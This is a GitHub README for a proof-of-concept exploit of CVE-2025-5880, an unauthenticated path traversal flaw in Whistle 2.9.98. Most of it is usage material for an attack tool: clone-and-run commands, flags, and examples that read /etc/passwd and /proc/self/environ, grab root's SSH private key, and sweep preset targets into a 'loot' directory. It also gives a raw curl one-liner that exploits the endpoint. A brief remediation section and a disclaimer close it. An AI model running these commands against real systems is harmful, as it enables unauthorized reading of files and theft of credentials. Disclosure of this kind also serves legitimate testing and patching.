


# CVE-2025-5880 — Whistle 2.9.98 Path Traversal PoC
 


 
> **Proof-of-concept exploit for an unauthenticated path traversal vulnerability in Whistle v2.9.98.**
 
---
 
## Vulnerability Summary
 
| Field | Detail |
|---|---|
| **CVE ID** | CVE-2025-5880 |
| **CWE** | CWE-22 (Path Traversal) |
| **Affected Software** | Whistle `≤ 2.9.98` |
| **Affected Endpoint** | `/cgi-bin/sessions/get-temp-file` |
| **Attack Vector** | Network — no authentication required |
| **Impact** | Arbitrary file read on the host filesystem |
 
The `filename` query parameter is not sanitised before being used to open a file on disk, allowing an attacker to escape the intended temp-file directory and read any file that the Whistle process has permission to access (e.g. `/etc/passwd`, `/root/.ssh/id_rsa`).
 
---
 
## Quick Start
 
```bash
# Clone
git clone https://github.com/YourHandle/CVE-2025-5880
cd CVE-2025-5880
 
# No external dependencies
python3 CVE-2025-5880.py -u http://TARGET:8899 --preset passwd
```
 
---
 
## Usage
 
```
python3 CVE-2025-5880.py [-h] -u URL [-f FILE] [--preset PRESET]
                          [--sweep] [-o OUTPUT] [--save-dir DIR]
                          [--timeout N]
```
 
| Flag | Description |
|---|---|
| `-u / --url` | Base URL of the target (e.g. `http://192.168.1.10:8899`) |
| `-f / --file` | Arbitrary file path to read |
| `--preset` | Named shortcut: `passwd shadow hosts id_rsa …` |
| `--sweep` | Iterate all presets automatically |
| `-o / --output` | Save result to a file |
| `--save-dir` | Directory to dump loot from `--sweep` |
| `--timeout` | HTTP timeout in seconds (default `10`) |
 
### Examples
 
```bash
# Read /etc/passwd
python3 CVE-2025-5880.py -u http://192.168.1.10:8899 --preset passwd
 
# Grab root's SSH private key
python3 CVE-2025-5880.py -u http://192.168.1.10:8899 --preset id_rsa -o id_rsa.pem
 
# Read an arbitrary path
python3 CVE-2025-5880.py -u http://192.168.1.10:8899 -f /proc/self/environ
 
# Sweep & save all presets
python3 CVE-2025-5880.py -u http://192.168.1.10:8899 --sweep --save-dir ./loot
```

 
 
---
 
## Raw PoC (curl)
 
```bash
# /etc/passwd
curl -s "http://TARGET:8899/cgi-bin/sessions/get-temp-file?filename=/etc/passwd" | jq -r '.value'
```
 
---
 
## Remediation
 
Update Whistle to a version that validates and restricts the `filename` parameter to the intended temp-file directory. Apply allowlist path normalisation (e.g. `path.resolve` + prefix check) server-side.
 
---
 
## Disclaimer
 
> This tool is provided **for authorized security testing and educational purposes only**.  
> Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.  
> The author assumes no liability for misuse.
